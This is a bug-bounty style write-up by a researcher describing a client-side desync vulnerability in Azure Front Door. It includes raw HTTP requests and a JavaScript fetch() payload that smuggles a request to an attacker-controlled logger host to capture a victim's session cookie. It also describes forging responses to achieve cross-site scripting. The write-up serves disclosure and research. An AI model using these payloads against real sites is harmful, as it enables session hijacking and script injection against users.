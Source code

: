 ```yaml
---
title: "Knocking on the Front Door (client side desync attack on Azure CDN)"
date: 2023-07-31T23:26:05+02:00
author: "Jeti"
authorTwitter: "0xJeti"
imageTwitter: "/frontdoor-cover.png"
---
```


A few months ago, I embarked on a security bug hunt within the scope of a private program available through the Intigriti platform. During this endeavor, I encountered an intriguing anomaly while analyzing the redirect from HTTP to HTTPS traffic on a particular host.

In this write-up, I will delve into the short journey that started after uncovering this strange behavior, ultimately leading to the discovery of a Client-Side Desync vulnerability within one of Microsoft Azure's CDN solutions known as Front Door.

## Discovery
It all started when I've sent following request to http://redacted.com:
```http
POST / HTTP/1.1
Host: redacted.com
[...]
Content-Length: 34

GET / HTTP/1.1
Host: redacted.com


```

Why such a strange request? I was just playing around in Burp after reading fantastic research on [Browser Powered desync attacks](https://portswigger.net/research/browser-powered-desync-attacks) by James [@Albinowax](https://twitter.com/albinowax)' Kettle.

And server responded with:
```http
HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

```

At first glance, it looks like there is nothing unusual. The server received two requests in the same (keep-alive) connection and responded twice with a 307 redirect from `http://` to `https://` address.

But... Wait... In reality, I just sent one POST request with a body! The size of the body was defined by the `Content-Length` header.

However, I received two responses. This indicates that the server happily ignored the `Content-Length` header and interpreted my request as two separate requests.

This looks like a perfect candidate for Client-Side Desync attack described in above-mentioned reasearch. 

Quoting @Albinowax:
>Classic desync or request smuggling attacks rely on intentionally malformed requests that ordinary browsers simply won't send. This limits these attacks to websites that use a front-end/back-end architecture. However, as we've learned from looking at CL.0 attacks, it's possible to cause a desync using fully browser-compatible HTTP/1.1 requests. Not only does this open up new possibilities for server-side request smuggling, it enables a whole new class of threat - client-side desync attacks.

>A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website. This can be contrasted with regular request smuggling attacks, which desynchronize the connection between a front-end and back-end server.

Upon conducting a more in-depth analysis, I discovered that this issue is not specific to the customer's solution but rather a general bug in the service utilized by the customer called [Azure Front Door](https://azure.microsoft.com/en-us/products/frontdoor/).

## Front Door

Azure Front Door service is a global, scalable content delivery network (CDN) and intelligent application delivery platform that provides secure and high-performance routing of web traffic to backend services.

Let's dive into some of the configurable options.

One of it's features (enabled by default) is to redirect all HTTP traffic to HTTPS.
![Frontdoor redirects HTTP to HTTPS](/frontdoor-http-to-https.png)

Technically this is done by redirecting browser to `https://` address via 307 status code:
![Front Door redirects with 307](/frontdoor-redirect-307.png)

Server supports keep-alive connections:
![Front Door supports keep-alive connections](/frontdoor-keep-alive-connections.png)

And redirects also POST requests:
![Front Door redirects POST requests](/frontdoor-redirect-post-requests.png)

But the problem is that it completely ignores `Content-Length` header:
![Front Door ignores Content-Length](/frontdoor-ignores-content-length.png)
What looks like two requests is in fact one request sent by the web browser where yellow box contains data for POST request (`Content-Length` header points to the end of the data).

But Front Door server ignores `Content-Length` header and treats it as two separate requests.

Another interesting design feature of Front Door (not a bug of course) is that all customer servers powered by Front Door service are available under one IP address and are also available in one keep-alive connection (this is a CDN service, right?). So this is perfectly valid set of requests sent in one TCP connection:

![Front Door is sharing connections](/frontdoor-sharing-connections.png)

> **NOTE 1:** *azure-victim.jeti.pw* and *azure-attacker.jeti.pw* are two separate web servers of two separate customers (I've used custom domains for better visibility).

> **NOTE 2:** *azure-attacker.jeti.pw* server doesn't have automatic HTTPS redirects turned on that is why it doesn't respond with redirect (this might be important for various exploitation techniques).

## Exploit

A CSD attack starts with the victim visiting the attacker's website, which then makes their browser send two cross-domain requests to the vulnerable website. The first request is crafted to desync the browser's connection and make the second request trigger a harmful request / response.

There are multiple ways how attacker can exploit this desynchronization issue. I'll focus on two possible ways.

### Stealing requests
Let's imagine that, upon visit from a victim, attacker's website sends a request (e.g. using Java Script `fetch API`):
```javascript
fetch('http://azure-victim.jeti.pw/x', {
method: 'POST',
  body: "POST /logger HTTP/1.1\r\nHost: azure-attacker.jeti.pw\r\nContent-Length: 200\r\n\r\n",
  mode: 'no-cors',
  redirect: 'follow',
  credentials: 'include'
})
```

![Incomplete request with fetch()](/frontdoor-fetch-incomplete-request.png)

Front Door service treats it as two separate requests where the second one is a POST request with some body attached (200 bytes long).

> **NOTE:** please remeber that *azure-attacker.jeti.pw* is configured to not to redirect automatically so the server checks `Content-Length` in this case.

As a request body is missing server will wait for 200 bytes of data to finish the request. 
All attacker needs to do is to redirect victim user to the victim's website:

```javascript
location = 'http://azure-victim.jeti.pw/'
```

Victim's browser will send another GET request (most of the time browser will re-use the  same connection). Both requests will look like this:
![[frontdoor-completed-request.png]]
Server received it's 200 bytes of data and sent POST request to http://azure-attacker.jeti.pw/logger with following **data**:
```http
GET / HTTP/1.1
Host: azure-victim.jeti.pw
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: PHPSESSID=uhogavedhcduei7qlfh1eplf7c
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Connection: keep-alive
Cache-Control: max-age=0

```

And effectively attacker had stolen the session cookie of the victim.

### "Universal" XSS by forging responses

Another way of expoiting a CSD vulnerability is to forge responses to the victim's requests.

Let's have a look at following request sent by the browser when victim visits malicious website (sent via `fetch API`):
![Poisoning response with XSS](/frontdoor-xss-request.png)

Front Door service again treats it as two separate requests and sends both to respective customer websites. And receives 2 separate responses.

But the victim's browser sent only one request so it expects only one response (307 redirect in our case). Second part stays in the connection pool waiting for another request to match (because of the HTTP pipelining).

When attacker redirects a victim, browser makes another request. 

But luckily for an attacker, the browser already have a response waiting in a connection pool (in our example response contains XSS payload that will be triggered in the context of website where victim was redirected).

As the attacker can redirect a victim to any Front Door powered website and forge the response I think this can be called a "Universal" XSS :)

